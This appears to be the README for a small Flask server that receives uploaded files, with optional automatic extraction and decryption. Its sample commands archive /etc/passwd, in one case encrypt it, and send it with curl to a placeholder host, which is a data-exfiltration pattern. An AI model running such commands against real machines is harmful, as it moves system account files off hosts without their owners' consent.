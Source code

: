 # HTTP Server Script

This script provides a way to upload and download files on a server using Flask. It offers features such as automatic extraction of uploaded ZIP and TAR files, optional automatic decryption of encrypted tar file, and download capabilities.  

## Prerequisites

- Python 3.x
- Flask
- Cryptodome
- Werkzeug

## Setup

1. Use pip to install the prerequisites  
2. Modify the configuration variables in the script:

- `mypwd`: Change this to your decryption password.
- `app.config['UPLOAD_DIR']`: Set the path to the directory where uploaded files will be stored.
- `app.config['DOWNLOAD_DIR']`: Set the path to the directory where downloaded files will be stored.
- `app.config['AUTO_EXTRACT']`: Set to `True` to enable automatic extraction of ZIP and TAR files.
- `app.config['AUTO_DECRYPT']`: Set to `True` to enable automatic decryption of encrypted files.
- `app.run(host='0.0.0.0', port=80)` Change port and host as needed.

## Notes

- Ensure that you have the necessary permissions for the upload and download directories.
- This script is intended for educational purposes and can be extended for production use with additional security measures.
- Keep your decryption password (`mypwd`) secure and do not share it.

## Sample Commands
Auto decryption of tar and extract

    tar c /etc/passwd | openssl enc -md sha256 -aes-256-cbc -pbkdf2 -e -a -pass 'pass:password' | curl http://ipaddr:port/?enc=1 -F 'file=@-'

Create tar file or zip and upload

    tar -cvf sample.tar /etc/passwd | curl -F 'file=@sample.tar' http://ipaddr:port/
    
## License

This script is released under the [MIT License](LICENSE).